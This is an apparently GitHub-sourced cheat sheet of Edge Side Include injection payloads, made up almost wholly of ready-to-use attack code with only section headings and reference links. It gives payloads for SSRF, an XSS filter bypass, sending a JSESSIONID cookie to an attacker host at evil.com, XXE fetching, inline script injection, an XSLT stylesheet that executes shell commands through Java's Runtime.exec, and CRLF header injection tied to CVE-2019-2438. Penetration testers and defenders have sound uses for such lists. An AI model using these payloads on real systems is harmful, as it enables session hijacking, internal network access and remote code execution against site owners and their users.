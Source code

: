 - [ESI Inject Cheatsheet](#esi-inject-cheatsheet)
  - [SSRF](#ssrf)
  - [Bypass Client-Side XSS Filters](#bypass-client-side-xss-filters)
  - [Bypass the HttpOnly Cookie Flag](#bypass-the-httponly-cookie-flag)
  - [XXE(ddoS)](#xxeddos)
  - [ESI Inline Fragment](#esi-inline-fragment)
  - [XSLT To RCE](#xslt-to-rce)
  - [Header Injection and Limited SSRF (CVE-2019-2438)](#header-injection-and-limited-ssrf-cve-2019-2438)
  - [参考](#参考)

# ESI Inject Cheatsheet
## SSRF
```html
<esi:include src="http://evil.com/ping/" />
```
## Bypass Client-Side XSS Filters
```html
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>
>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
```http
GET /index.php?msg=<esi:include src="http://evil.com/poc.html" />
```
poc.html:
```js
<script>alert(1)</script>
```
## Bypass the HttpOnly Cookie Flag
```html
<esi:include src="http://evil.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
## XXE(ddoS)
```html
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
poc.xsl
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
## ESI Inline Fragment
```html
<esi:inline name="/attack.html" fetchable="yes">
<script>prompt('Malicious script')</script>
</esi:inline>
```
## XSLT To RCE
```html
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```
esi.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[touch /tmp/pwned]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
## Header Injection and Limited SSRF (CVE-2019-2438)
```html
<esi:include src="/page_from_another_host.htm">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```
## 参考
https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/  
https://docs.oracle.com/cd/B14099_19/caching.1012/b14046/esi.htm#i642458  
https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/